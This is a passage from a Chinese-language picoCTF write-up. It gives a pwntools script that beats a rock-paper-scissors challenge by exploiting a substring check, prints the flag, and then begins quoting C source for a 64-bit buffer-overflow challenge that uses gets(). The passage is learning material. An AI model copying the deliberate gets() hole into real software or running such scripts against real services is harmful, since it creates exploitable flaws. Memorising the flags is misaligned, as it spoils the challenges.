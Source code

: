 注意程序对用户输入的处理方式，是找到用户输入字符串中是否有'rock'，'paper'，'scissors'。也就是说如果输入'rockpaperscissors'就无论如何都能赢。

payload：

```python
from pwn import *
context.log_level='debug'

# io = process('./vuln')
io = remote('saturn.picoctf.net', 51420)

io.sendlineafter(b'Type \'2\' to exit the program', b'1')

for i in range(4):
	io.sendlineafter(b'Please make your selection (rock/paper/scissors):',
		 	b'rockpaperscissors')
	io.sendlineafter(b'Type \'2\' to exit the program', b'1')

io.sendlineafter(b'Please make your selection (rock/paper/scissors):',
		 	b'rockpaperscissors')
io.sendlineafter(b'Type \'2\' to exit the program', b'2')


io.interactive()
```

picoCTF{50M3_3X7R3M3_1UCK_58F0F41B}

## 6. x-sixty-what

源码：
```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFFSIZE 64
#define FLAGSIZE 64

void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Welcome to 64-bit. Give me a string that gets you the flag: ");
```